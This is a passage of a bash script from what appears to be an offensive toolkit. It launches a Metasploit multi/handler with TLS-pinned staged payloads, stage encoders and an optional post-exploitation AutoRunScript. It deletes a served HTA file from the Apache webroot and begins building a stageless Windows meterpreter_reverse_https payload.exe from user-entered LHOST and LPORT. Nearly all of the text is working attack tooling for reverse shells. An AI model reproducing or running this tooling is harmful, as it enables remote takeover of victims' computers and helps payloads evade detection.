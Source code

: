   # 
  # Create the staged Paranoid Listener (multi-handler)
  #
  # A staged payload would need to set the HandlerSSLCert and
  # StagerVerifySSLCert true options to enable TLS pinning:
  echo ${BlueF}[☠]${white} Start multi-handler ..${Reset};
  if [ "$ExEc" = "YES" ]; then
    # Run post-exploitation module 
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD $paylo; set LHOST $LhOsT; set LPORT $LpOrT; set HandlerSSLCert $IPATH/output/$N4M3.pem; set StagerVerifySSLCert true; set EnableUnicodeEncoding $VaL; set EnableStageEncoding $StAgE; set StageEncoder $ENCODE; set AutoRunScript $PoSt; exploit"
  else
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD $paylo; set LHOST $LhOsT; set LPORT $LpOrT; set HandlerSSLCert $IPATH/output/$N4M3.pem; set StagerVerifySSLCert true; set EnableUnicodeEncoding $VaL; set EnableStageEncoding $StAgE; set StageEncoder $ENCODE; exploit"
  fi
  #
  # Cleaning files & stop apache2 ..
  #
  rm $ApAcHe/paranoid-staged.$DEFAULT_EXT > /dev/null 2>&1
  rm $ApAcHe/EasyFileSharing.hta > /dev/null 2>&1
  /etc/init.d/apache2 stop | zenity --progress --pulsate --title "☠ PLEASE WAIT ☠" --text="Stoping apache2 webserver" --percentage=0 --auto-close --width 300 > /dev/null 2>&1
  sleep 2




#
# Stageless payload build (exe output)
#
elif [ "$BuIlD" = "stageless (payload.exe)" ]; then
  echo ${BlueF}[☠]${white} stageless payload sellected ..${Reset};
  sleep 1
    #
    # Chose payload to use Building a stageless agent ..
    #
    cd $IPATH/output
    echo ${BlueF}[☠]${white} Building stageless payload.exe ..${BlueF};
    LhOsT=$(zenity --title="☠ Enter  LHOST ☠" --text "example: $IP" --entry --width 270) > /dev/null 2>&1
    LpOrT=$(zenity --title="☠ Enter  LPORT ☠" --text "example: 1337" --entry --width 270) > /dev/null 2>&1
    paylo=$(zenity --list --title "☠ PAYLOADS AVAILABLE ☠" --text "\nChose payload to build:" --radiolist --column "Pick" --column "Option" TRUE "windows/meterpreter_reverse_https" FALSE "windows/x64/meterpreter_reverse_https" --width 350 --height 220) > /dev/null 2>&1
